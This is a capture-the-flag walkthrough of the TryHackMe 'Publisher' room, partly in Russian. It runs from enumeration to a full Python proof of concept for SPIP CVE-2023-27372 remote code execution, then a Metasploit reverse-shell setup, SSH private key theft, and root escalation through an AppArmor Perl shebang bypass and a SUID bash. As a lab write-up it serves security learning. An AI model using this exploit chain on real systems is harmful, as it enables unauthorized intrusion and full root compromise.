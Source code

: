 ```http
https://tryhackme.com/room/publisher
```
___
```ip
10.10.160.215
```
___
# Перечисление
## Nmap
```bash
sudo nmap 10.10.160.215 -sS -sC -sV -T5 -p- -vv -oN publisher.txt 
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFdId2yqBbvM07Y8Dig16xzUhEFwQTFaJOmCYZ/kW6kM
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WEB
```bash
dirsearch -u http://10.10.160.215/
```

```bash
[18:36:35] 403 -  278B  - /.htaccess.orig                                   
[18:36:35] 403 -  278B  - /.htaccess.sample                                 
[18:36:35] 403 -  278B  - /.htaccess.bak1                                   
[18:36:35] 403 -  278B  - /.ht_wsr.txt                                      
[18:36:36] 403 -  278B  - /.htaccess.save                                   
[18:36:36] 403 -  278B  - /.htaccess_orig
[18:36:36] 403 -  278B  - /.html                                            
[18:36:36] 403 -  278B  - /.httr-oauth                                      
[18:36:36] 403 -  278B  - /.htaccess_sc                                     
[18:36:36] 403 -  278B  - /.htpasswds                                       
[18:36:36] 403 -  278B  - /.htaccessBAK                                     
[18:36:36] 403 -  278B  - /.htm
[18:36:36] 403 -  278B  - /.htaccessOLD
[18:36:36] 403 -  278B  - /.htaccessOLD2
[18:36:36] 403 -  278B  - /.htpasswd_test                                   
[18:36:36] 403 -  278B  - /.htaccess_extra
[18:36:37] 403 -  278B  - /.php                                             
[18:37:23] 200 -  622B  - /images/                                          
[18:37:23] 301 -  315B  - /images  ->  http://10.10.111.191/images/         
[18:37:56] 403 -  278B  - /server-status/                                   
[18:37:56] 403 -  278B  - /server-status
```

> [!NOTE]
> Install CMS SPIP!!!!

```bash
ffuf -u http://10.10.160.215/FFUZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt:FFUZ
```

```bash
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 73ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 78ms]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 72ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 73ms]
spip                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 75ms]
```

```
SPIP 4.2.0
```
## searhsploit
```bash
searchsploit spip
```

> [!NOTE]
> php/webapps/51536.py


# Exploit
```python
import argparse
import bs4
import html
import requests

def parseArgs():
    parser = argparse.ArgumentParser(description="Poc of CVE-2023-27372 SPIP < 4.2.1 - Remote Code Execution by nuts7")
    parser.add_argument("-u", "--url", default=None, required=True, help="SPIP application base URL")
    parser.add_argument("-c", "--command", default=None, required=True, help="Command to execute")
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help="Verbose mode. (default: False)")
    return parser.parse_args()

def get_anticsrf(url):
    r = requests.get('%s/spip.php?page=spip_pass' % url, timeout=10)
    soup = bs4.BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
    if csrf_input:
        csrf_value = csrf_input['value']
        if options.verbose:
            print("[+] Anti-CSRF token found : %s" % csrf_value)
        return csrf_value
    else:
        print("[-] Unable to find Anti-CSRF token")
        return -1

def send_payload(url, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": payload
    }
    r = requests.post('%s/spip.php?page=spip_pass' % url, data=data)
    if options.verbose:
        print("[+] Execute this payload : %s" % payload)
    return 0

if __name__ == '__main__':
    options = parseArgs()

    requests.packages.urllib3.disable_warnings()
    requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    try:
        requests.packages.urllib3.contrib.pyopenssl.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    except AttributeError:
        pass

    csrf = get_anticsrf(url=options.url)
    send_payload(url=options.url, payload="s:%s:\"<?php system('%s'); ?>\";" % (20 + len(options.command), options.command))
```

## Metasploit
```bash
use multi/http/spip_rce_form
set RHOSTS 10.10.160.215
set TARGETURI spip
set LHOST 10.9.0.6
run
```

# LPE
## FLAG1
```bash
cat /home/think/user.txt
```

```bash
cat /home/think/.ssh/id_rsa 
```

```bash
chmod 600 id_rsa 
ssh -i id_rsa think@10.10.160.215
```


```bash
think@ip-10-10-160-215:/$ ls -la /usr/sbin/run_container
-rwsr-sr-x 1 root root 16760 Nov 14  2023 /usr/sbin/run_container
```

```bash
strings /usr/sbin/run_container
```
___
### [AppArmor Обход Шебанга](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/apparmor.html#apparmor-shebang-bypass)

В [**этой ошибке**](https://bugs.launchpad.net/apparmor/+bug/1911431) вы можете увидеть пример того, как **даже если вы предотвращаете запуск Perl с определенными ресурсами** , если вы просто создаете скрипт оболочки, **указав его** в первой строке **`#!/usr/bin/perl`**, и **запускаете файл напрямую** , вы сможете выполнить все, что захотите. Например:

`echo '#!/usr/bin/perl use POSIX qw(strftime); use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"' > /tmp/test.pl chmod +x /tmp/test.pl /tmp/test.pl`

___
```bash
echo '#!/usr/bin/perl use POSIX qw(strftime); use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"' > /var/tmp/test.pl chmod +x /var/tmp/test.pl /var/tmp/test.pl

echo "chmod u+s /bin/bash" >> /opt/run_container.sh

/opt/run_container.sh

/bin/bash -p 
```

Flag2
```bash
cat /root/root.txt
```